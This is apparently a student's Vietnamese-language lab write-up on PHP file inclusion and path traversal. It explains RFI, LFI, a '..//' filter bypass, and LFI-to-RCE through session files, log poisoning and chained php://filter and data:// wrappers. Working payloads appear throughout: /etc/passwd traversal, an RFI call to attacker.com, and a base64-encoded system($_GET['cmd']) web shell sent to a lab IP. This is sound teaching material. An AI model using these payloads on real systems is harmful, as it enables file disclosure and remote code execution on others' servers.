







# **File Inclusion, Path Traversal**
## **1. Web Application Architechture**
Web có 2 phần chính là frontend và backend:
- **Frontend**: là nơi người dùng tương tác trực tiếp
- **Backend**: xử lí các request của user, tương tác với DB, trả dữ liệu cho người dùng



## **2. File Inclusion Types**
### **Basics of File Inclusion**
`../` dùng để di chuyển vị trí thư mục\
Đường dẫn tương đối: `./folder/file.php`\
Đường dẫn tuyệt đối: đường dẫn tính từ thư mục gốc `/`: `/var/www/html/folder/file.php`

### **Remote File Inclusion**
Attacker có thể thêm đường dẫn URL tới file trên hệ thống mà họ kiểm soát, sau đó server web gọi đến, lấy file và thực thực thi trên hệ thống của web; Ví dụ: `include.php?page=http://attacker.com/exploit.php`

### **Local File Inclusion**
Attacker thực hiện di chuyển ra bên ngoài phạm vi cho phép của thư mục web `include.php?page=../../../../etc/passwd`

### **RFI vs LFI Exploitation Process**


## **3. PHP Wrappers**
### **PHP Wrappers**
**Wrapper** là một cơ chế/protocol đặc biệt của PHP để truy cập và xử lý các data stream\
Bình thường đọc file ta sẽ có các phương thức:
```php
file_get_contents("/etc/passwd");
``` 

hoặc 

```php
include("/etc/passwd");
```

Nhưng PHP còn có các URI đặc biệt:
```
php://...
data://...
file://...
phar://...
```

Ví dụ: `php://filter/convert.base64-encode/resource=/config.php`

Nếu thông thường, khi gọi đến file `config.php`, web sẽ thực thi `config` và có thể sẽ không trả ra gì; và thứ ta cần là lấy được nội dung của file, vì vậy ta dùng phương thức trên để đưa nó vào một luồng encode base64 rồi in ra ngoài cho phép ta decode và đọc

### **Data Wrapper**
Thực hiện truyền dữ liệu trực tiếp trong URL, không nhất thiết phải đọc dữ liệu từ một file có sẵn trong hệ thống



`data:text/plain,<?php phpinfo(); ?>`:
- data: url
- mime-type: kiểu dữ liệu, ở đây là `text/plain`
- `<?php phpinfo(); ?>`: file được đẩy thẳng vào data

Sau đó các phần này được truyền vào hàm `include()` sau đó thực thi

## **4. Base Directory Breakout**
Ví dụ web có chức năng đọc file theo logic sau:

```php
function containsStr($str, $subStr){
    return strpos($str, $subStr) !== false;
}

if(isset($_GET['page'])){
    if(!containsStr($_GET['page'], '../..') && containsStr($_GET['page'], '/var/www/html')){
        include $_GET['page'];
    }else{ 
        echo 'You are not allowed to go outside /var/www/html/ directory!';
    }
}
```

Ta thấy web đã thực hiện kiểm tra đầu vào của người dùng không được có chuỗi `../..`, và phải bắt đầu bằng thư mục `/var/www/html`\
Nhưng trong hệ thống, ta có thể thay thế kí tự `../` bằng `..//` cũng có ý nghĩa tương tự: vậy nên thay vì payload là `/var/www/html/../../../etc/passwd` thì payload có thể bypass được cơ chế xác thực này là `/var/www/html/..//..//..//etc/passwd`

Ta có thể sử dụng các kĩ thuật encode(Obfuscation) để có thể bypass được những hệ thống có chức năng sanity kém

- Standard URL Encoding 
- Double Encoding

## **5. LFI2RCE - Session Files**
```php
if(isset($_GET['page'])){
    $_SESSION['page'] = $_GET['page'];
    echo "You're currently in" . $_GET["page"];
    include($_GET['page']);
}
```

Logic của web là lấy nội dung từ tham thế `page` trên URL, sau đó lưu vào một file session rồi cuối cùng lại có `include` file ở tham số `page`, đây chính là nguyên nhân gây ra LFI

Trong hệ thống có một tệp có đường dẫn `/var/lib/php/sessions/sess_[sessionID]` tương ứng với session của người dùng

Từ đó ta có thể tạo session bằng payload `<?php echo phpinfo(); ?>`



Sau đó ta truy cập vào file đó thông qua đường dẫn `sessions.php?page=/var/lib/php/sessions/sess_[sessionID]`



Kết quả là ta nhận được thông tin của file `phpinfo` được đọc bởi hệ thống

## **6. LFI2RCE - Log Poisoning**
Kĩ thuật này cũng tương tự như **Session Files**, nó có thể ghi log vào file `/var/log/apache2/access.log`, sau đó được đưa vào `include`, từ đó code PHP trong file được thực thi

## **7. LFI2RCE - PHP Wrappers**

Ta cần thực thi được đoạn code PHP:

`<?php system($_GET['cmd']); echo 'Shell done!'; ?>`

Mà trên hệ thống không tự dưng có file có nội dung như thế này để ta thực thi(*khi không thể ghi đè vào một file nào khác*)

Đến đây ta cần dùng **PHP wrapper**, kết hợp giữa `filter/` và `data/`, payload sẽ là:
```url
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```

filter sử dụng phương thức decode base64 để có thể decode được dữ liệu, và nó cần một nguồn để lấy dữ liệu ví dụ một file `/etc/passwd` chẳng hạn; nhưng đã nói bên trên là trong hệ thống không tự động có được file có nội dung có thể thực thi được shell\
Nên ta cần một luồng dữ liệu ta có thể kiểm soát, đó là lúc cần dùng `data/`; `data/` có nhiệm vụ cung cấp một luồng dữ liệu cho `filer/` và nó ở dạng base64\
Rồi cuối cùng, web truyền phần trên vào tham hàm `include`, qua đó thực thi được PHP



Khi thực hiện gửi payload trên thì ta thấy kết quả là đã thực thi được code những lỗi là do không có tham số `cmd` được truyền vào\
Khi đó payload hoàn chỉnh của ta là:
```url
http://10.49.143.36/playground.php?page=php%3A%2F%2Ffilter%2Fconvert.base64-decode%2Fresource%3Ddata%3A%2F%2Fplain%2Ftext%2CPD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4%2B&cmd=whoami
```



Kết quả là ta nhận được kết quả của OS cmd `whoami`

 


